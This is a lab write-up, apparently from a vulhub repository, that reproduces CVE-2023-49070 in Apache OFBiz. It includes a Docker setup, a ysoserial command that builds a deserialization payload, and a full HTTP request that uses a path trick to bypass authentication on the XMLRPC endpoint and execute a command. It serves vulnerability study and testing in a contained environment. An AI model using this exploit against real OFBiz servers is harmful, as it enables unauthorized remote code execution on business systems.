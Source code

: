 # Unsafe deserialization of XMLRPC arguments in ApacheOfBiz (CVE-2023-49070)

[中文版本(Chinese version)](README.zh-cn.md)

Apache OFBiz is an open source enterprise resource planning (ERP) system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.

Apahce OFBiz prior to 17.12.03, there is a deserialization issue caused by XMLRPC endpoint at `/webtools/control/xmlrpc`, which is marked as [CVE-2020-9496](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496). Developer fixed this issue by adding authentication check and filter, but the patches have been bypassed by CVE-2023-49070.

Apache OFBiz deleted XMLRPC interface to escape this nightmare at version 18.12.10 eventually.

References:

- <https://www.openwall.com/lists/oss-security/2023/12/04/2>
- <https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496>

## Vulnerable environment

Executing following command to start an Apache OfBiz 18.12.09:

```
docker compose up -d
```

After a short wait, you can see the login page at `https://localhost:8443/accounting`.

## Vulnerability Reproduce

The method to reproduce CVE-2023-49070 is similar to [CVE-2020-9496](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496), except that it requires bypassing the patches.

First of all, use [ysoserial](https://github.com/frohoff/ysoserial) to generate a CommonsBeanutils1 gadget payload:

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" | base64 | tr -d "\n"
```

![](1.png)

Sending packets using the method in CVE-2020-9496 no longer works:

![](2.png)

But modifing the path to `/webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y` is able to bypass the restriction:

```
POST /webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![](3.png)

`touch /tmp/success` has been executed in the container:

![](4.png)
